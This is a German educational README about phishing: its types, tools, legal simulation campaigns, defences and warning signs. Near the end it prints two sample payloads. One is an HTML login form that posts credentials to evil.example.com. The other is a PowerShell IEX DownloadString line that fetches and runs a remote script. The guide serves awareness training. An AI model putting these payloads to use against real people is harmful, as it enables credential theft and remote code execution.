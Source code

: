 # 🎣 Phishing – Social Engineering im Cyberspace

## Was ist Phishing?

**Phishing** ist eine Form des Social Engineerings, bei der Angreifer versuchen, sensible Informationen wie Zugangsdaten, Kreditkarteninformationen oder vertrauliche Unternehmensdaten durch Täuschung zu erlangen. Dies geschieht meist über gefälschte E-Mails, Webseiten oder Nachrichten, die von legitimen Quellen zu stammen scheinen.



## Inhaltsverzeichnis
- [Warum ist Phishing gefährlich?](#warum-ist-phishing-gefährlich)
- [Typen von Phishing](#typen-von-phishing)
- [Tools & Frameworks](#tools--frameworks)
- [Phishing-Kampagnen simulieren (Legal!)](#phishing-kampagnen-simulieren-legal)
- [Schutzmaßnahmen gegen Phishing](#schutzmaßnahmen-gegen-phishing)
- [Typische Merkmale einer Phishing-Mail](#typische-merkmale-einer-phishing-mail)
- [Beispielhafte Payloads & Angriffsformen](#beispielhafte-payloads--angriffsformen)
- [Nützliche Quellen & Lernmaterialien](#nützliche-quellen--lernmaterialien)
- [Haftungsausschluss](#haftungsausschluss)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Warum ist Phishing gefährlich?

- Keine technische Schwachstelle notwendig – der Mensch ist das Ziel
- Sehr hohe Erfolgsquote bei ungeschulten Nutzern
- Einstiegspunkt für weitere Angriffe (z. B. Ransomware, interne Pivoting-Angriffe)
- Auch technische Fachkräfte sind nicht immun




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typen von Phishing

| Typ                 | Beschreibung |
|---------------------|--------------|
| **Spear Phishing**  | Gezielte Angriffe auf bestimmte Personen, z. B. CFO, Admin |
| **Whaling**         | Hochrangige Zielpersonen (z. B. CEO, Vorstände) |
| **Clone Phishing**  | Duplikation legitimer E-Mails mit schädlichem Link/Anhang |
| **Voice Phishing (Vishing)** | Phishing über Telefonanrufe |
| **SMS Phishing (Smishing)** | Täuschung über SMS/WhatsApp-Nachrichten |
| **Pharming**        | Weiterleitung des Opfers über manipulierte DNS-Einträge |
| **Credential Harvesting** | Abgreifen von Zugangsdaten über gefälschte Login-Seiten |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Tools & Frameworks

### Offensive Tools (nur zu Bildungszwecken!)

| Tool                 | Beschreibung |
|----------------------|--------------|
| **GoPhish**          | Open-Source Phishing Framework für Kampagnen |
| **SET (Social-Engineer Toolkit)** | Sammlung von Angriffsmethoden inkl. Mail- und Web-Phishing |
| **King Phisher**     | Phishing-Simulation mit E-Mail-Tracking |
| **Evilginx2**        | Man-in-the-middle Phishing mit 2FA-Bypass |
| **Modlishka**        | Reverse Proxy Phishing Tool |
| **Phishery**         | Word-Dokumente mit eingebetteten Login-Prompts |
| **Blackeye / Zphisher** | Templates für bekannte Login-Seiten (nur mit Zustimmung erlaubt!) |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Phishing-Kampagnen simulieren (Legal!)

### Legal Compliance beachten
- Nur in Testumgebungen oder mit Zustimmung aller Beteiligten
- Für Awareness-Trainings & Security Audits
- DSGVO-konform planen und dokumentieren


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Beispielhafte Simulationskampagne
1. Zielgruppe auswählen (z. B. bestimmte Abteilung)
2. E-Mail-Typ auswählen (z. B. Paketdienst, Microsoft-Login, Urlaubsantrag)
3. Landing Page imitieren (z. B. Office365)
4. Tracking aktivieren (z. B. Klicks, Eingaben, Reaktionen)
5. Reporting & Schulung bereitstellen




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Schutzmaßnahmen gegen Phishing

### Technische Maßnahmen
- SPF, DKIM, DMARC korrekt konfigurieren
- E-Mail-Gateway mit Phishing-Filter
- Browser-Warnungen aktivieren (z. B. Google Safe Browsing)
- 2FA/MFA verpflichtend einsetzen


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Awareness & Schulung
- Regelmäßige Trainings für Mitarbeiter:innen
- Simulierte Phishing-Kampagnen
- Wiederholende Reminder („Nicht auf alles klicken“)


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Weitere Maßnahmen
- Passwortmanager verwenden
- Kein „Passwort-Recycling“
- Prüfung der URL vor Eingabe von Login-Daten
- Anti-Phishing-Banner in E-Mails einbinden




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Merkmale einer Phishing-Mail

- Dringlichkeit („Ihr Konto wird gelöscht!“)
- Schlechte Grammatik / Übersetzung
- Absenderadresse gefälscht
- Linktext ≠ Ziel-URL
- Ungewöhnliche Anhänge (z. B. .iso, .lnk, .html)
- Emotionale Trigger (z. B. Angst, Belohnung)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispielhafte Payloads & Angriffsformen

```html
<!-- Gefälschte Login-Seite (Credential Harvesting) -->
<form action="http://evil.example.com/login" method="post">
  <input type="text" name="username" />
  <input type="password" name="password" />
</form>
```

```powershell
# Phishing-Anhang per PowerShell
IEX (New-Object Net.WebClient).DownloadString("http://evil.example.com/payload.ps1")
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Nützliche Quellen & Lernmaterialien
- [GoPhish Project](https://github.com/gophish/gophish)
- [SET – Social Engineer Toolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Modlishka](https://github.com/drk1wi/Modlishka)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
